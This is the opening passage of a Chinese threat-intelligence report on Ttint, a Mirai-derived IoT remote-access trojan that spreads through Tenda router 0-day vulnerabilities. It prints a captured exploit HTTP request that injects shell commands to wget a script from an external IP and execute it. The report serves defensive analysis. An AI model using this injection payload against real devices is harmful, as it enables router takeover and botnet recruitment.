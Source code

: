 > 原文链接: https://www.anquanke.com//post/id/219022 


# Ttint: 一款通过2个0-day漏洞传播的IoT远控木马


                                阅读量   
                                **298553**
                            
                        |
                        
                                                                                    



[![](https://p4.ssl.qhimg.com/t0111a40931d873927e.jpg)](https://p4.ssl.qhimg.com/t0111a40931d873927e.jpg)



作者：[涂凌鸣](https://twitter.com/IUnKnow84503351)，[马延龙](https://twitter.com/_O_owl)，[叶根深](https://twitter.com/zom3y3)

## 背景介绍

从2019年11月开始，360Netlab未知威胁检测系统Anglerfish蜜罐节点相继监测到某个攻击者使用2个腾达路由器0-day漏洞传播一个基于Mirai代码开发的远程控制木马（RAT）。

常规的Mirai变种基本都是围绕DDoS做文章，而这个变种不同，在DDoS攻击之外，它针对路由器设备实现了Socket5代理，篡改路由器DNS，设置iptables，执行自定义系统命令等多达12个远程控制功能。

此外，在C2通信层面，它使用WSS (WebSocket over TLS) 协议，一方面这样在流量层面可以规避非常成熟的Mirai流量检测，另一方面可以为C2提供安全加密通信。

在C2本身，攻击者最开始使用了一个Google的云服务IP，其后切换到位于香港的一台托管主机，但是当我们使用网站证书，样本，域名及IP在我们的DNSmon系统里深入扩展关联后，我们看到更多的基础设施IP，更多的样本，和更多的C2域名。

两个0 day，网关设备的12种远控功能，加密流量协议，多次更换的基础设施IP，我们怀疑这个也许不是普通玩家。

这个僵尸网络我们将它命名为Ttint。



## 0-day漏洞攻击

2019年11月9号，我们监测到攻击者使用第一个Tenda路由器0-day漏洞（CVE-2020-10987），传播Ttint样本。值得注意的是，这个漏洞直到2020年7月10号才被披露出来[[1]](https://blog.securityevaluators.com/tenda-ac1900-vulnerabilities-discovered-and-exploited-e8e26aa0bc68)。

```
GET /goform/setUsbUnload/.js?deviceName=A;cd%20/tmp%3Brm%20get.sh%3Bwget%20http%3A//34.92.139.186%3A5001/bot/get.sh%3Bchmod%20777%20get.sh%3B./get.sh HTTP/1.1
Host: `{`target`}`
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.22.0
```

2020年8月21号，我们监测到攻击者使用第二个Tenda路由器0-day漏洞，传播Ttint样本。
